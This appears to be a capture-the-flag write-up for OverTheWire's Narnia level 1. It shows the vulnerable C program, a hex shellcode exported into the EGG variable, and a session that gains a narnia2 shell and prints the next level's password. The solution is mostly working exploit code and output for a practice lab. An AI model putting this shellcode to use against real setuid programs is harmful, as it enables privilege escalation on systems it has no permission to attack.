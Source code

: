 

Log in into the game:
```bash
ssh narnia1@narnia.labs.overthewire.org -p 2226 # password efeidiedae
```

Code of `/narna/narnia1.c`:
```bash
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}

```
It seems code's getting stored in memoery (refer to https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Narnia1).
Using a exploit (from http://shell-storm.org/shellcode/files/shellcode-399.php):

```bash
export EGG=$(python -c 'print "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
```

```bash
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ ls
narnia0    narnia1.c  narnia3	 narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4	 narnia5.c  narnia7    narnia8.c
$ cat /etc/narnia_pass/narnia2
nairiepecu

```

Useful setuid explanation https://stackoverflow.com/questions/10496153/setreuid-call-fails-to-re-establish-process-permissions?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa.
